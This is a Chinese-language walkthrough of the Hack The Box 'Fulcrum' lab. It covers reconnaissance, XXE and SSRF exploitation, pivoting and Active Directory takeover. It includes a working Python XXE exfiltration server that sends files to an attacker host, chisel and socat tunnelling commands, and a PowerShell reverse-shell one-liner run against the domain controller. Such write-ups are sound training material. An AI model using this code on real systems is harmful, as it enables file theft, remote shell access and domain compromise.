# 域渗透实战之 fulcrum - 先知社区

域渗透实战之 fulcrum

- - -

# 信息收集

## 端口扫描

使用 nmap 进行端口扫描，发现存在大量端口开放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103814-b17aebc6-81cd-1.png)

接着去查看其版本和对应的服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103822-b6c11592-81cd-1.png)

## Fuzz 接口

使用 wfuzz 对其 url 路径后的参数进行枚举。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103830-bb2f6746-81cd-1.png)

## 目录遍历

使用工具进行目录枚举，未发现有用的目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103838-c0147062-81cd-1.png)

接着去看服务，访问端口为 4 的页面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103846-c504817a-81cd-1.png)

## 目录暴力破解

然后继续对其进行爆破，发现存在 home.php.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103908-d1b01dbc-81cd-1.png)

然后尝试进行上传，发现没法上传成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103915-d6326c78-81cd-1.png)

## 88 端口

访问 88 端口，发现存在 phpadmin 登录界面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103924-db600f2a-81cd-1.png)

尝试弱口令登录，没有成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103934-e17a6824-81cd-1.png)

## 56423 端口

使用 curl 进行测试，发现有回显。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103945-e8145d70-81cd-1.png)

# 漏洞利用

## xxe 漏洞

接着使用 burp，然后抓包。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113103953-ecfc53a6-81cd-1.png)

发现其存在 xxe 漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104001-f19e5f94-81cd-1.png)

## 文件泄露

然后使用 xxe 进行加载.dtd 文件来读取文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104010-f6d948ac-81cd-1.png)

## xxe 文件读取

开启 http 服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104019-fc8407f6-81cd-1.png)

然后将读取到的内容进行解码，成功获取到读取的内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104027-0148fec2-81ce-1.png)

# 权限提升

## SSRF 漏洞

### 编写脚本

```bash
#!/usr/bin/python3

import base64
import logging
import readline
import requests
import threading
import time
from flask import Flask, request

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

app = Flask(__name__)
prev_data = ""

xml_template = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.14.6/dtd?fn={}">
<data>&send;</data>"""

@app.route("/dtd")
def dtd():
    fn = request.args['fn']
    return f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={fn}">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.6/exfil?data=%file;'>">
    %all;"""


@app.route("/exfil")
def data():
    global prev_data
    b64data = request.args['data'].replace(' ', '+') # Flask tries to URL decode it
    print(b64data)
    print(len(b64data))
    data = base64.b64decode(b64data).decode().strip()
    if data != prev_data:
        print(data)
        prev_data = data
    return ""


def web():
    app.run(host="0.0.0.0", port=80)


if __name__ == "__main__":
    threading.Thread(target=web, daemon=True).start()
    time.sleep(1)
    #app.run(debug=True, use_reloader=False, host="0.0.0.0", port=80)
    while True:
        try:
            fn = input("file> ")
            xml = xml_template.format(fn)
            requests.post('http://10.10.10.62:56423', data=xml)
        except KeyboardInterrupt:
            print()
```

## 反弹 shell

执行脚本来反弹 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104053-107d2986-81ce-1.png)

开启 http 服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104103-16574fd0-81ce-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104110-1a9f7a9a-81ce-1.png)

发现该脚本可以成功执行命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104125-239329c6-81ce-1.png)

解码进行查看执行 ping 之后的内容。  
使用 nc 进行反弹。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104133-28817442-81ce-1.png)

## 获取 shell

成功获取 webshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104143-2e6833d2-81ce-1.png)

## 查看网络进程。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104153-342a0ab6-81ce-1.png)

查看端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104200-3876c9e2-81ce-1.png)

# 域渗透

## 网络枚举

上传 nmap，然后进行端口扫描，发现其存在 5985 端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104218-4342062a-81ce-1.png)

## 翻配置文件

发现存在 config.inc.php，并发现了用户名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104227-48b2c8ba-81ce-1.png)

## 解密密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104235-4d5c3a68-81ce-1.png)

## 隧道搭建

上传 Chisel，然后搭建隧道。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104249-55d0a940-81ce-1.png)

```bash
./socat tcp-listen:60218,reuseaddr,fork tcp:192.168.122.228:5985 &
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
./chisel_1.9.1_linux_amd64 client 10.10.14.39:8001 R:socks
./socat tcp-listen:55555,reuseaddr,fork tcp:192.168.122.228:5985
socat tcp-listen:5985,reuseaddr,fork tcp:10.10.16.5:55555
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104259-5b8c95ba-81ce-1.png)

然后在 kali 里面配置 prtoychains，然后进行连接测试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104307-6020f8a0-81ce-1.png)

## Winrm 获取 shell

发现存在 dc 和 laap 的连接记录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104314-64943c26-81ce-1.png)

## LDAP 查询

鉴于帐户名称和上面的注释，查询活动目录域似乎是个好主意。要从 PowerShell 查询 LDAP，我需要一个 DirectoryEntry 对象。这些对象被引用为 System.DirectoryServices.DirectoryEntry, 或 ADSI。有多种构造函数（创建对象的方法），但我将使用这个，因为它允许我传递用户名和密码。

## 搜索用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104323-6a195dfc-81ce-1.png)

## 使用原始 PowerShell 进行枚举

发现有 8 个用户，它们全部转储并滚动浏览

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104330-6e3f5882-81ce-1.png)

查询域管理员

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104337-723f6c92-81ce-1.png)

## 上传 PowerView 工具

上传脚本，然后执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104345-7719dfa4-81ce-1.png)

执行命令  
获取 user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104356-7d5a88e6-81ce-1.png)

.\\c.execlient10.10.14.39:8000R:5985:192.168.122.132:5985

隧道  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104404-823fbc46-81ce-1.png)

枚举

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104413-87e7d8f4-81ce-1.png)

查看共享。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104429-914d4636-81ce-1.png)

## 发现域管密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104435-95137a4c-81ce-1.png)

获取 root.txt  
读取到 root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104444-9a08b0e4-81ce-1.png)

## 反弹 shell

执行命令，然后使用 nc 来反弹 shell。

```bash
Invoke-Command -Computer dc.fulcrum.local -Credential $cred -scriptblock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113104457-a218ddd6-81ce-1.png)

REF:  
[https://www.cnblogs.com/autopwn/p/14049762.html](https://www.cnblogs.com/autopwn/p/14049762.html)  
[https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/](https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/)
